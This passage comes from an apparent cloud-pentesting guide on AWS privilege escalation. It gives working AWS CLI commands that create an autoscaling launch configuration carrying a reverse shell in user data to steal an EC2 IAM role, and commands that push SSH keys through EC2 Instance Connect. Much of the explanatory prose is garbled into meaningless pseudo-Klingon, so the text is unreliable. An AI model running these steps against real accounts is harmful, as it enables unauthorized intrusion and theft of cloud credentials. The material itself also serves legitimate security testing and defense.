 {% endcode %}

**Potential Impact:** Direct privesc to a different EC2 role.

### `autoscaling:CreateLaunchConfiguration`, `autoscaling:CreateAutoScalingGroup`, `iam:PassRole`

An attacker with the permissions **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** can **create a Launch Configuration** with an **IAM Role** and a **rev shell** inside the **user data**, then **create an autoscaling group** from that config and wait for the rev shell to **steal the IAM Role**.

---

**Qapla'!**
```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
--launch-configuration-name bad_config \
--image-id ami-0c1bc246476a5572b \
--instance-type t3.micro \
--iam-instance-profile EC2-CloudWatch-Agent-Role \
--user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
--auto-scaling-group-name bad_auto \
--min-size 1 --max-size 1 \
--launch-configuration-name bad_config \
--desired-capacity 1 \
--vpc-zone-identifier "subnet-e282f9b8"
```
**Qapla'!** QaD privesc laH 'e' vItlhutlh EC2 role.

### `!autoscaling`

**`ec2:CreateLaunchTemplate`** je **`autoscaling:CreateAutoScalingGroup`** **ghaHmoHlaHbe'chugh IAM role privesc** vItlhutlh, 'ach Launch Configuration or Launch Template DaH jImej **`iam:PassRole` je `ec2:RunInstances`** permissions vItlhutlh (DaH jImej privesc) 'e' vItlhutlh.

### `ec2-instance-connect:SendSSHPublicKey`

**`ec2-instance-connect:SendSSHPublicKey`** permissions vaj 'e' vItlhutlh attacker ssh key user vaj 'oH access vItlhutlh (instance ssh access vaj) 'ej privesc vItlhutlh.
```bash
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "ec2-user" \
--ssh-public-key "file://$PUBK_PATH"
```
**Qapla'!** **QaD** **potlh** **EC2 IAM roles** **ghaH** **privesc** **'e'** **running instances**.

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

**'e'** **permission** **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** **'e'** **'ej** **'ej** **ssh key** **'oH** **serial connection** **'e'** **'ej**. **serial** **enable** **'e'**, **permission** **`ec2:EnableSerialConsoleAccess`** **'ej** **'oH** **enable** **'e'**.

